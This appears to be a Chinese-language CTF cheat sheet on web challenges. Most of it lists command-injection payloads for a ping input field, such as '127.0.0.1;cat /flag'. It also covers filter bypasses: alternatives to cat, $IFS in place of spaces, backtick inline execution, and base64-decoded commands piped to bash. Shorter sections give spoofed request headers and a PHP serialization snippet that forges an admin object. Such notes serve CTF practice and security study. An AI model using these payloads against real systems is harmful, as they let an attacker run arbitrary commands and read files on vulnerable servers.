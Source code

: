 ## Ping常用命令

127.0.0.1;ls /
127.0.0.1;cat /flag

**管道符**
;	执行完前面语句再执行后面的。如ping 127.0.0.1; ls
|	显示后面语句的执行结果。如ping 127.0.0.1 | ls
||	前面语句出错时执行后面语句。如ping 127.0.0.1 || ls
&	前面语句为假则执行后面语句。如ping 127.0.0.1 & ls
&&	前面语句为假则报错，为真则执行后面语句。如ping 127.0.0.1 && ls


**过滤cat**
```bash
127.0.0.1;tac flag_573386320311.php #从最后一行倒序显示内容
127.0.0.1;more flag_573386320311.php #根据窗口大小，一页一页的现实文件内容
127.0.0.1;less flag_573386320311.php
127.0.0.1;head flag_573386320311.php # 只显示头几行
127.0.0.1;tail flag_573386320311.php # 只显示最后几行
127.0.0.1;nl flag_573386320311.php # 显示时输出行号
```

**过滤空格**
``< 、<>、%20(space)、%09(tab)、\$IFS\$9、 \${IFS}、$IFS、$IFS$1``

**过滤目录分隔符**
``;cd flag_is_here&&cat flag_128182724515598.php``

**内联绕过**

内联，就是将反引号内命令的输出作为输入执行。

?ip=127.0.0.1;cat `ls`

**base64绕过**

echo bHM= |base64 -d|bash
echo bHM= |base64 -d|sh


## burpsuite-请求头

Referer: https://www.Sycsecret.com
User-Agent: Syclover
X-Forwarded-For: 127.0.0.1


## 序列化与反序列化

```php
<?php
class Name{
    private $username = 'admin';
    private $password = '100';
}
$a = new Name();
echo urlencode(serialize($a)); 
?>
```
